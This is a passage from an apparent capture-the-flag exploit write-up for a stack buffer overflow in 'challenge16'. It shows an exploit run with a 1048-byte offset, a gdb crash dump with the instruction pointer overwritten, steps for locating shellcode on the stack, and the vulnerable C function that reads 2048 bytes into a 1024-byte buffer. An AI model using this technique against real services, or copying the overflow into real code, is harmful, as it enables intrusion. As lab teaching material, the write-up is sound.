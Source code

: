 ```
~/challenges/challenge16$ python3 exp-challenge16.py --offset 1048
...

000003d0  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
000003e0  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
000003f0  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
00000400  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
00000410  41 41 41 41  41 41 41 41  42 42 42 42               │AAAA│AAAA│BBBB│
0000041c
[ ] Receiving all data: 0B

─────────────────────────────────────────────────────────────────────────────────────────
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x15
$rbx   : 0x00000000400488  →   add BYTE PTR [rax], al
$rcx   : 0x0
$rdx   : 0x0
$rsp   : 0x007fffffffeb70  →  0x007fffffffece8  →  0x007fffffffeedc  →  "./challenge16"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x000000004b4600  →  "I've read 1052 bytes\nrt: 5001\n"
$rdi   : 0x000000004b1250  →  0x0000000000000000
$rip   : 0x42424242
───────────────────────────────────────────────────────────────────────── code:x86:64 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x42424242
───────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "challenge16", stopped 0x42424242 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────────
```


## Find stack addr of shellcode

To find the stack address of the shellcode in memory, we can start the exploit with the
parameters `--addr 0x414141 --keep --gdb "b *handleClient+129"`. This will the `gdb` argument
will set a breakpoint at the end of the overflown function, and we can just simply print
the memory address with the gdb command `print &data`:

Remember:
```
void handleClient (int socket) {
   char data[1024];
   int ret = 0;

   bzero(data, sizeof(data));
   write(socket, "Data: ", 6);

   ret = read(socket, data, 2048); // reads up to 2048 bytes into a 1024 buffer
   printf("I've read %i bytes\n", ret);
}
```
